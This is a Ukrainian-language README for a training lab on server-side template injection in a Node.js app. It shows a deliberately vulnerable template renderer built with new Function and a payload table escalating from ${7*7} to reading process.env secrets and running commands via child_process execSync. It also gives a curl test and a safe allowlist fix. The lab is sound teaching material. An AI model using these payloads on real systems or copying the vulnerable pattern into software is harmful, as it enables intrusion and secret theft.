

[🏠 Головна](../README.md) · [⬅ X02 Command Injection](../X02_CommandInjection/README.md) · [X04 Path Traversal ➡](../X04_PathTraversal/README.md)

# 🧬 X03: Server-Side Template Injection (SSTI)

> **OWASP A05:2025 — Injection** (у 2021: A03) · порт **3013** · CWE-1336, CWE-94
>
> ⚠️ Вразлива версія — це **RCE**. Тільки `127.0.0.1`!



## 📋 Зміст

- [Мета](#-мета)
- [Запуск](#-запуск)
- [Вразливість](#-вразливість)
- [Експлуатація](#-експлуатація)
- [Виправлення](#-виправлення)
- [Завдання](#-завдання)
- [Джерела](#-джерела)

---

## 🎯 Мета

Зрозуміти різницю між «шаблон як **дані**» і «шаблон як **код**», навчитися визначати SSTI за реакцією на математичні вирази та ескалювати її до читання секретів і виконання команд.

## 🚀 Запуск

```bash
cd X03_SSTI
npm install
npm start          # http://127.0.0.1:3013
```

## 🚫 Вразливість

«Конструктор email-розсилок» дозволяє маркетологу редагувати текст листа. Сервер рендерить його через JS template literal, побудований з рядка користувача:

```javascript
const fn = new Function(...Object.keys(data), 'return `' + template + '`;');
```

Отже, будь-який `${...}` у шаблоні — це **JavaScript, що виконується на сервері** з доступом до `process`.

| Ендпоінт | Синтаксис | Статус |
|---|---|---|
| `POST /preview { template }` | `${...}` | 🔴 код виконується |
| `POST /preview-secure { template }` | `{{name}}` | 🟢 лише плейсхолдери з allowlist |

> Цей самий клас вразливостей зустрічається в реальних рушіях: EJS/Pug/Handlebars/Nunjucks (Node), Jinja2 (Python), Twig (PHP), Freemarker/Velocity (Java) — коли користувач контролює **сам шаблон**, а не лише дані.

## 💣 Експлуатація

| Крок | Пейлоад | Результат |
|---|---|---|
| Детекція | `${7*7}` | `49` — вираз виконано |
| Розвідка | `${Object.keys(process.env).join(', ')}` | список змінних оточення |
| Секрети | `${process.env.APP_SECRET}` | `sk_live_51H_ssti_demo_secret` |
| RCE | `${process.mainModule.require('child_process').execSync('whoami')}` | ім’я користувача ОС |
| RCE (Node ≥ 22.3) | `${process.getBuiltinModule('child_process').execSync('whoami')}` | те саме |

```bash
curl -X POST http://127.0.0.1:3013/preview -H "Content-Type: application/json" \
     -d '{"template":"${7*7} ${process.env.APP_SECRET}"}'
```

## ✅ Виправлення

```javascript
// Шаблон — це ДАНІ. Тільки плейсхолдери з allowlist, значення екрануються
function renderSafe(template, data) {
    const allowed = new Set(Object.keys(data));
    return template.replace(/\{\{\s*([a-zA-Z_]+)\s*\}\}/g,
        (m, key) => allowed.has(key) ? escapeHtml(data[key]) : m);
}
```

- Ніколи не будуй шаблон/код з рядка користувача (`new Function`, `eval`, `vm.runInContext` — **не** пісочниця).
- Якщо користувачам потрібні шаблони — logic-less рушій (Mustache) або sandbox-режим рушія.
- Користувач передає **дані** в шаблон, а не **шаблон** у рушій.

## 🧪 Завдання

1. Підтверди SSTI через `${7*7}` і прочитай `APP_SECRET` та `DB_PASSWORD`.
2. Виконай `whoami` та прочитай `server.js` через `fs`.
3. Переконайся, що `/preview-secure` повертає `${7*7}` і `{{constructor}}` як звичайний текст.

## 📚 Джерела

- [OWASP Top 10:2025 — A05 Injection](https://top10.owasp.org/2025/A05_2025-Injection/)
- [OWASP WSTG — Testing for Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
- [PortSwigger — Server-side template injection](https://portswigger.net/web-security/server-side-template-injection)

---

[⬆ До змісту](#-зміст) · [🏠 Головна](../README.md)
